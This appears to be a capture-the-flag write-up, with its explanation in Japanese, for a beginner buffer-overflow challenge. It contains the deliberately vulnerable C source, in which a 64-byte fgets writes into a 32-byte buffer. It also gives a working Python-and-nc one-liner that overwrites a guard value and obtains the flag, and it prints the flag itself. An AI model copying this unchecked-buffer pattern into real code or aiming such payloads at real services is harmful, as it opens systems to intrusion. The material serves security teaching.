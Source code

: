 # p0wn3d - Pwn

An introduction to pwn challenges. This is to protect the babies from last year!

nc p0wn3d.kctf-453514-codelab.kctf.cloud 1337

main.c 
```
#include <stdio.h>
#include <string.h>
#include <unistd.h>

struct __attribute__((__packed__)) data {
  char buf[32];
  int guard;
};

void ignore(void)
{
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag(void)
{
  char flag[1024] = { 0 };
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}

int main(void) 
{
  struct data first_words;
  ignore(); /* ignore this function */

  printf("Hello little p0wn3r. Do you have any first words?\n");
  fgets(first_words.buf, 64, stdin);
  sleep(2);
        puts("Man that is so cute");
        sleep(2);
        puts("I remember last year people were screaming at the little p0wn3rs.. like AAAAAAAAAAAAAAAAAAAAAAAAAAAAA!");
        sleep(2);
        puts("Don't worry little one. I won't let them do that to you. I've set up a guard");

  if (first_words.guard == 0x42424242) {
    get_flag();
  }

  return 0;
}
```

## solve
バッファオーバーフローの脆弱性がある
- fgets で first_words.buf に 64 バイトまで入力を受け付けていますが、buf は 32 バイトしか確保されていません。これにより、guard の値が不正に変更され、get_flag() 関数が呼ばれる

- 32バイト分guardを埋めて、0x42424242（リトルエンディアン）を満たせばいい

```
$ python3 -c "print('A'*32 + '\x42\x42\x42\x42')" | nc p0wn3d.kctf-453514-codelab.kctf.cloud 1337
== proof-of-work: disabled ==
Hello little p0wn3r. Do you have any first words?
Man that is so cute
I remember last year people were screaming at the little p0wn3rs.. like AAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Don't worry little one. I won't let them do that to you. I've set up a guard
wctf{pwn_1s_l0v3_pwn_1s_l1f3}
```

## flag
`wctf{pwn_1s_l0v3_pwn_1s_l1f3}`